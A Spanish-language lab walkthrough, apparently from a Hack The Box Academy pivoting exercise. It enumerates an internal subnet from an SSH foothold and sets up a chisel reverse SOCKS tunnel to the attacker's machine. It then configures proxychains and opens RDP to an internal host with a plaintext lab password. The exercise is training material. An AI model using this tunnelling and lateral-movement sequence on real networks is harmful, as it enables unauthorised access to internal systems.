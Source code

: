* Nos autententicamos en el servicio SSH, listamos las interfaces de red, descubrimos los hosts activos y enumeramos sus puertos

   * **Interfaces de red**

      ```
      <SNIP>
      ens224: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
            inet 172.16.5.129  netmask 255.255.254.0  broadcast 172.16.5.255
      ```
      > Esta interfaz de red se encuentra en un **subred**

   * **Hosts activos**

      ```
      Listando Hosts Activos...

      [+] 172.16.5.19
      
      Puertos Abiertos...
      <SNIP>
      [+] Puerto 3389
      <SNIP>
      ```

   a. Ya que tenemos información básica de la Máquina Víctima, usaremos `chisel` para entablar una **`conexión socks5`**

    * Nos descargamos [chisel](https://github.com/jpillora/chisel/releases).
    * Los subimos al sevicio ssh: `scp chisel ubuntu@<IP Máquina>:~/`
    * Chisel Máquina Atacante: `./chisel server --reverse -p 8080`
    * Chisel Máquina Pivoting: `./chisel client <tun0 IP>:8080 R:socks`

   b. En la Máquina Host se abre una conexión socks

   ```
   2023/07/05 11:49:56 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
   ```

   c. Agremos la cadena proxy al archivo **`/etc/proxychains4.conf`**
   
   ```
   <SNIP>
   socks5  127.0.0.1 1080
   ```

   d. Nos conectamos al servicio RDP usando proxychains para tener alcance de la **subred**
   * **`proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123`**

   ![](/assets/images/HTB/Academy/Pivoting-Tunneling/flag2.png)
